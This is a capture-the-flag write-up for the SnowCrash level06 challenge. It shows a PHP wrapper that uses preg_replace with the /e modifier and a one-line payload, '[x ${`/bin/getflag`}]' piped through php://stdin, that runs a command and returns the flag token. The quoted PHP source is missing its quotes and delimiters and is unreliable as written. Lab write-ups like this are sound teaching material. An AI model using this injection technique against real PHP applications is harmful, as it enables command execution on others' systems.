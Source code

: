 # level06

1. Files found in `~/` :

    ```bash
    level06  level06.php
    ```

    ```bash
    level06@SnowCrash:~$ strings level06 | grep level06
    /home/user/level06/level06.php
    ```

2. Analysis of the `level06.php` file

    The `level06` binary can execute php code via the expand (option `e`) of `preg_replace`.

    ```php
    function y($m) { $m = preg_replace(.,  x , $m); $m = preg_replace(@,  y, $m); return $m; }

    function x($y, $z) { 
    $a = file_get_contents($y); 
    $a = preg_replace(([x (.*)])e, y(2), $a); 
    $a = preg_replace([, (, $a); 
    $a = preg_replace(], ), $a); 
    return $a; 
    }
    $r = x($argv[1], $argv[2]); print $r;
    ```

3. Exploitation

    Create a string for `preg_replace` :

    ```bash
    echo '[x ${`/bin/getflag`}]' | ./level06 php://stdin 2>&1 | grep token
    ```

    ```bash
    level06@SnowCrash:~$ echo '[x ${`/bin/getflag`}]' | ./level06 php://stdin 2>&1 | grep token
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
    ```

4. Token discovered

    The token is : `wiok45aaoguiboiki2tuin6ub`
